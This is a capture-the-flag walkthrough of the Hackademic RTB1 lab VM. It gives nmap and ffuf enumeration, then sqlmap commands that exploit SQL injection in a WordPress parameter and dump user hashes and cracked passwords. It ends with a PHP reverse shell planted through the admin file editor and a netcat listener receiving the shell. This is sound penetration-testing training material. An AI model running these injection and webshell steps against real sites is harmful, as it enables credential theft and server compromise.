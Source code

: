 # Hackademic: RTB1

## 1.Get VM IP

```bash
root@kali: nmap -sn 192.168.127.0/24
                
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-13 03:57 EDT
Nmap scan report for 192.168.127.1
Host is up (0.00052s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 192.168.127.140
Host is up (0.0015s latency).
MAC Address: 00:0C:29:F6:75:CB (VMware)
Nmap scan report for 192.168.127.254
Host is up (0.00041s latency).
MAC Address: 00:50:56:EF:E6:A0 (VMware)
Nmap scan report for 192.168.127.128
Host is up.
```

The machine IP is `192.168.127.140`, lets enumerate it.

## 2.Enumeration

```bash
root@kali: nmap -sV -sC 192.168.127.140 -oN fullscan

Nmap scan report for 192.168.127.140
Host is up (0.00079s latency).
Not shown: 988 filtered tcp ports (no-response), 10 filtered tcp ports (host-prohibited)
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Apache httpd 2.2.15 ((Fedora))
|_http-server-header: Apache/2.2.15 (Fedora)
|_http-title: Hackademic.RTB1  
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 00:0C:29:F6:75:CB (VMware)
```


Visit the main page and click on `target` link and you will be redirected to `http://192.168.127.140/Hackademic_RTB1/`

let's fuzz this path :

```bash
root@kali: ffuf -w ~/wordlist/raft-large-directories.txt  -u http://192.168.127.140/Hackademic_RTB1/FUZZ/

[Status: 200, Size: 1160, Words: 64, Lines: 16, Duration: 11ms]
    * FUZZ: wp-content

[Status: 200, Size: 6523, Words: 301, Lines: 41, Duration: 13ms]
    * FUZZ: wp-includes

[Status: 200, Size: 2010, Words: 98, Lines: 20, Duration: 10ms]
    * FUZZ: wp-images

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 693ms]
    * FUZZ: wp-admin

[Status: 500, Size: 1881, Words: 127, Lines: 44, Duration: 681ms]
    * FUZZ:
```

we have found `wp-admin` directory and we find that it is like a wordpress CMS








back to main page, if you click on `Uncategorized` link on the bottom of the page a new url parameter will be used `cat=1`





this paramter is vulnerable to sql injection if you put a `"` after it :












i tried with `sqlmap` to inject into this paramter and get the database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs

...
back-end DBMS: MySQL >= 5.0
[05:03:56] [INFO] fetching database names
[05:03:56] [INFO] resumed: 'information_schema'
[05:03:56] [INFO] resumed: 'mysql'
[05:03:56] [INFO] resumed: 'wordpress'
available databases [3]:
[*] information_schema
[*] mysql
[*] wordpress
...
```

all we need here is to get information from `wordpress` database.

- Get tables from this database :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress --tables

Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+
```

interesting table would be `wp_users` so let's get information from it :

- Get columns of `wp_users` table :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users --columns

Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
| user_msn            | varchar(100)        |
| user_nicename       | varchar(50)         |
| user_nickname       | varchar(50)         |
| user_pass           | varchar(64)         |
| user_registered     | datetime            |
| user_status         | int(11)             |
| user_url            | varchar(100)        |
| user_yim            | varchar(50)         |
+---------------------+---------------------+
```

interesting columns would be `user_login`, `user_pass`, `user_level`, `user_email`, let's get those infos :

- Get data from the desired columns :

```bash
root@kali: sqlmap -u "http://192.168.127.140/Hackademic_RTB1/?cat=1" --batch --dbs -D wordpress -T wp_users -C user_login,user_pass,user_level,user_email --dump

Database: wordpress                                                                                                                                             
Table: wp_users
[6 entries]
+--------------+---------------------------------------------+------------+-------------------------+
| user_login   | user_pass                                   | user_level | user_email              |
+--------------+---------------------------------------------+------------+-------------------------+
| NickJames    | 21232f297a57a5a743894a0e4a801fc3 (admin)    | 1          | NickJames@hacked.com    |
| MaxBucky     | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   | 0          | MaxBucky@hacked.com     |
| GeorgeMiller | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   | 10         | GeorgeMiller@hacked.com |
| JasonKonnors | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  | 0          | JasonKonnors@hacked.com |
| TonyBlack    | a6e514f9486b83cb53d8d932f9a04292 (napoleon) | 0          | TonyBlack@hacked.com    |
| JohnSmith    | b986448f0bb9e5e124ca91d3d650f52c            | 0          | JohnSmith@hacked        |
+--------------+---------------------------------------------+------------+-------------------------+
```

as we see here sqlmap has cracked some of the hashes and according to `user_level` user `GeorgeMiller` has the highest level of `10`

we use this user with credentials `GeorgeMiller:q1w2e3` to login to `/wp-admin` directory.


img:adminpage


## 3.Gaining Shell 

After checking various parts of the CMS i found that in `Manage` menu and in `Files` submenu we can edit a `hello.php` file.

i just paste a php reverse shell (pentestmonkey) payload and updated the file.

run a listener on you kali machine and navigate to `wp-content/plugins/hello.php`

```bash
root@kali: nv -nvlp 4444
          
listening on [any] 4444 ...
connect to [192.168.127.128] from (UNKNOWN) [192.168.127.140] 35822
Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
 07:05:40 up  2:12,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=489(apache) groups=489(apache)
sh: no job control in this shell
sh-4.0$ id
id
uid=48(apache) gid=489(apache) groups=489(apache)
sh-4.0$
```





